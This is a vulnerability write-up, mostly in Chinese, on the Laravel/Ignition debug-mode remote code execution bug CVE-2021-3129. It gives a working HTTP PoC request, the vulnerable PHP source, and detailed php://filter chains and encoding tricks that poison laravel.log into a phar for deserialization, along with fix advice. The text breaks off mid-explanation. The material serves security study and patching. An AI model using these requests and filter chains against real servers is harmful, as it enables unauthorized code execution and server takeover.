## CVE-2021-3129 Laravel <= v8.4.2 debug mode: Remote code execution

### Summary

> Laravel <= 8.4.2 存在远程代码执行漏洞，当Laravel开启了Debug模式时，由于Laravel自带的2.5.2之前的Ignition功能的某些接口和函数存在过滤不严，未经过身份验证的远程攻击者可以发起恶意请求，通过构造恶意Log文件等方式触发phar反序列化，从而造成远程代码执行，控制服务器。

https://www.ambionics.io/blog/laravel-debug-rce

https://xz.aliyun.com/t/9030#toc-3

### Vulnerable Targets

Laravel <= v8.4.2

Ignition <= 2.5.1

`docker run -d -p 13010:80 vulhub/laravel:8.4.2`

### poc

```http
POST /_ignition/execute-solution HTTP/1.1
Host: 192.168.77.37:13010
User-Agent: python-requests/2.26.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 153
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"viewFile": "DOESNOTEXIST", "variableName": "doesnotexist"}}
```

  

### exp

https://github.com/ambionics/laravel-exploits (BUG alert)

fixed version:

  

### fix

APP_DEBUG=false

or upgrade

### Analysis

Ignition 是 Laravel 6.0 新的默认错误页，具有一些美观的 Laravel 特定功能，可以使调试异常和堆栈跟踪变得更加方便！你甚至可能喜欢故意抛出一个异常来查看这个漂亮的新的 Laravel 调试堆栈。

Ignition通过一些Solutions 提供解决报错的服务:

  

本问题为 MakeViewVariableOptionalSolution 中, 

run() 方法中的file_put_contents() 

makeOptional() 方法中的file_get_contents() 

的参数可控且无过滤, 导致可借助phar协议rce

```php
<?php

namespace Facade\Ignition\Solutions;

use Facade\IgnitionContracts\RunnableSolution;
use Illuminate\Support\Facades\Blade;

class MakeViewVariableOptionalSolution implements RunnableSolution
{
    ...
    public function run(array $parameters = [])
    {
        $output = $this->makeOptional($parameters);
        if ($output !== false) {
            file_put_contents($parameters['viewFile'], $output);
        }
    }

    public function makeOptional(array $parameters = [])
    {
        $originalContents = file_get_contents($parameters['viewFile']);
        $newContents = str_replace('$'.$parameters['variableName'], '$'.$parameters['variableName']." ?? ''", $originalContents);
        $originalTokens = token_get_all(Blade::compileString($originalContents));
        $newTokens = token_get_all(Blade::compileString($newContents));
        $expectedTokens = $this->generateExpectedTokens($originalTokens, $parameters['variableName']);

        if ($expectedTokens !== $newTokens) {
            return false;
        }

        return $newContents;
    }
    ...
}
```

parameters 参数由ExecuteSolutionController controller传入

  

```php
<?php

namespace Facade\Ignition\Http\Controllers;

use Facade\Ignition\Http\Requests\ExecuteSolutionRequest;
use Facade\IgnitionContracts\SolutionProviderRepository;
use Illuminate\Foundation\Validation\ValidatesRequests;

class ExecuteSolutionController
{
    use ValidatesRequests;

    public function __invoke(
        ExecuteSolutionRequest $request,
        SolutionProviderRepository $solutionProviderRepository
    ) {
        $solution = $request->getRunnableSolution();

        $solution->run($request->get('parameters', []));

        return response('');
    }
}
```

因此, 若攻击者可上传任意文件, 即可借助file_get_contents(先执行), 利用phar协议, 结合laravel 的相关gadget rce.

根据环境生成一laravel gadget:

  

上传后，利用solution触发反序列化  

  

在无上传功能/不能包含上传文件(比如ffs)时, 可以包含一些log, 例如laravel的log实现rce.

It's a little bit tricky here.

https://www.ambionics.io/blog/laravel-debug-rce  

tricky的原因在于, 我们很难控制完整的log, 而只有部分payload的log并不是合法的phar文件

  

分析log格式

  

```
[previous logs]
[prefix]PAYLOAD[midfix]PAYLOAD[midfix]PART_OF_PAYLOAD[suffix]
```

有两种方案可以尝试清除PAYLOAD外其他字符

**base64-decode**

php的b64decode有忽略编码表外字符的特性, 因此如果将payload b64encode足够多次, 再通过 php://filter 的 convert.*过滤器 的base64-decode 解码同样次数, 即可达到清除 除几个payload外其余log的目的. 

  

但是遇到了如下的两个问题

a) log 不断解码, 其中任意位置可能decode出补位= 

  

再次解码则会导致filter报warning

  

  

b) log不断解码, payload前的prefix不保持一致

  

prefix decode后会存在残余字符干扰payload

  

但如果在prefix可预测的情况下, 可以通过在payload前加一些padding规避(两个完整payload中间的midfix也可以如此解决,从而消除后一个payload)

  

多层decode同理

    

但, 由于prefix前包含时间, 导致不同秒的prefix decode的长度并不确定

    

padding也需要根据精确到秒的时间浮动 (don't forget [previous logs])

**utf-16 to utf-8**

convert.*过滤器 的 iconv.utf-16le.utf-8/iconv.utf-16be.utf-8 可以将 utf-16 编码的内容转为 utf-8 编码的内容. 因此可以将 utf-16 编码的 payload传入log. 

再利用此 filter 转码, 从而将 原先的 garbage 转为 non-ASCII 字符. 

再利用base64的filter即可清除 除payload外的其余log.

此处以小端为例



```shell
echo  PAYLOAD | sed -E 's/./\0\\0/g'
P\0A\0Y\0L\0O\0A\0D\0
```

写入log的payload将类似

```
[previous logs]
[prefix]P\0A\0Y\0L\0O\0A\0D\0[midfix]P\0A\0Y\0L\0O\0A\0D\0[midfix]P\0A\0R\0T\0_\0O\0F\0_...[suffix]
```

转码后

  

  

但, utf-16 一个字符占两byte, 

因此想要成功转码, 需要保证[previous logs] + 本次error(即总log)的长度为偶数; 否则

  

并且原先的[previous logs] + 本次error(PAYLOAD) 会被decode一次, 并且这条新的error(INVALID MULTIBYTE SEQUENCE)也会打入log. 这般新生成的畸形log + 接下来依然需要插入payload 的 error 依然无法判奇数偶数, 

多试几次也许就奏效了, 

可以被成功转码后, 也需要保证payload没有因错位而解码失败, 

可以尝试多试几次直至能被phar成功读取.

考虑到 previous logs 的复杂性, 和 prefix 的长度可控, 最好有一个能够保证 previous logs 奇偶的办法. (或者清空 previous logs). 

可以借助 consumed 这个filter清空log, 但没有找到此 filter 的相关文档, 并且本地环境下复现发现, **不会清空全部log** . 

清空后再打入一条日志, 可以看到有前一天 (甚至几小时前) 的日志的残留. 

  

至于如何保证previous logs 的奇偶, 倒是有一种方案

**utf-8 to utf-16**

convert.*过滤器 的 iconv.utf-8.utf-16le/iconv.utf-8.utf-16be 可以将 utf-8 编码的内容转为 utf-16 编码的内容, 即

```
len(new_logs) = 2*len(previous_logs)
```

但, 先前utf-16 to utf-8 的方案要求 logs 中仅能有 即将传入的payload 为 utf-16 编码, 否则无论 utf-8 to utf-16 编码多少次, 从 utf-16 转码 utf-8 后, 还是会存在 garbage 影响 payload 的 phar 格式.

因此在此之上, 需要破坏 log 中的utf-16编码. 有以下两种方案

**big/small endian**

依然以传入小端payload为例

```bash
echo  PAYLOAD | sed -E 's/./\0\\0/g'
P\0A\0Y\0L\0O\0A\0D\0
```

则在将 previous log 进行 utf-16 编码的时候, 选用大端存储

```bash
echo  PREVIOUS | sed -E 's/./\\0\0/g'
\0P\0R\0E\0V\0I\0O\0U\0S
```

最终清除 garbage 时, 选用 小端存储

```
大端编码, 调整 previous log 为偶数
php://filter/write=convert.iconv.utf-8.utf-16be
传入base64后小端payload
P\0A\0Y\0L\0O\0A\0D\0
php://filter/write=convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=/var/www/storage/logs/laravel.log
```

这是一种方案. 

也能结合b64 decode清空日志

  

**quoted-printable-encode**

convert.*过滤器 的 quoted-printable-encode 可以将 8-bit字符串 转化成  quoted-printable 字符串

```php
<?php
$fp = fopen('php://output', 'w');
stream_filter_append($fp, 'convert.quoted-printable-encode');
fwrite($fp, "This is a test.\n");
/* 输出： =This is a test.=0A  */
?>
```

即将一些 non-textual char 转化为 quoted-printable char, 且长度由一变为三. 

Let's do some Math work! 

```
previous log 由 n个可见字符 和 m个不可见字符组成
n + m
经过utf-8 to utf-16后, 
n + (n + 2m)
经过 quoted-printable-encode 后,
n + 3(n + 2m) = 4n + 6m
```

因此既破坏了 所有utf-16编码的 garbage , 也将 previous logs 的长度维持在偶数个

自此, 通过如下filter链, 即可控制 previous logs 的长度为偶数

```php
php://filter/write=convert.iconv.utf-8.utf-16le|convert.quoted-printable-encode/resource=../storage/logs/laravel.log
```

  

通过如下filter链, 也能达到清空 previous logs 的目的. 一箭双雕了属于是. 

```php
php://filter/write=convert.iconv.utf-8.utf-16le|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log
```

  

同时, 在尝试大小端方式破坏 log 中的utf-16编码时发现, 

在 把 null byte 传入file_get_contents(), 期望触发 No such file or directory in file 从而将 utf-16 编码的payload写入log 的过程中, 发现并不能直接传入  null byte

  

当 filename 包含 null byte , 会抛出

  

并不会将代入的 payload 写入日志, 本地环境是直接 302 了. 

因此还需要能够妥善的把 null byte 写入日志

**quoted-printable-decode** 

通过先将 null byte quoted-printable-encode 写入日志, 再利用 convert.*过滤器 的 quoted-printable-decode, 即可成功将null byte 写入日志.

```python
>>> s = 'UEFZTE9BRA=='
>>> ''.join(["=" + hex(ord(i))[2:] + "=00" for i in s]).upper()
'=55=00=45=00=46=00=5A=00=54=00=45=00=39=00=42=00=52=00=41=00=3D=00=3D=00'
```

  

自此, 只需要清除如下 除 payload 外的干扰了

```
[prefix]P\0A\0Y\0L\0O\0A\0D\0[midfix]P\0A\0Y\0L\0O\0A\0D\0[midfix]P\0A\0R\0T\0_\0O\0F\0_...[suffix]
```

也就是保证, payload会被成功的 utf-16le to utf-8 , 并且仅有一处 payload 被成功转码. 

但, 第一步仍需要保证转码顺利, 即回到先前的问题, 此时也需控制 打入payload 的error 长度为偶数.

类似先前 利用 utf-8 to utf-16 的方案, 可以插入两次， 从而触发两遍error  

```
[prefix]PAYLOAD_A[midfix]PAYLOAD_A[midfix]PART_OF_PAYLOAD_A[suffix]
[prefix]PAYLOAD_B[midfix]PAYLOAD_B[midfix]PART_OF_PAYLOAD_B[suffix]
```

便可以保证 prefix/mixfix/suffix 和 PAYLOAD_A/PAYLOAD_B 都成对出现. 

至于 PART_OF_PAYLOAD , 可以通过控制 PAYLOAD_A 和 PAYLOAD_B 长度一样(或 都足够长)保证也成对, 但可以简化些, 

真正需要执行的payload 长度必然超出限制, 幸运的是超出限制的长度必然为偶数:

  

  

而仅需要凑对的 payload 只要保证长度够短, 且为偶数即可, 例如:

  

自此保证当前 log 长度为偶数. 

至于如何保证仅有一个 payload 被成功转码, 需要根据

```
[prefix]PAYLOAD[midfix]PAYLOAD[...]
```

两个完整payload中间的 midfix 长度奇偶决定

  

既然长度为奇数, 那必然只有一个payload 会被完整utf-16 to utf-8 转码出来. (无论prefix长度奇偶)

但, 

```
[prefix]PAYLOAD[midfix]PAYLOAD[midfix]PART_OF_PAYLOAD[suffix]
```

PART_OF_PAYLOAD 仍有可能干扰最后一步 base64解码.

以 PAYLOAD_A 作为真正攻击的 payload 为例, 即

```
[prefix]PAYLOAD[midfix]PAYLOAD[midfix]PART_OF_PAYLOAD[suffix]
[prefix]AA[midfix]AA[midfix]AA[suffix]
```

PART_OF_PAYLOAD 的 prefix 长度奇偶可以确定, 需要结合log路径名等:

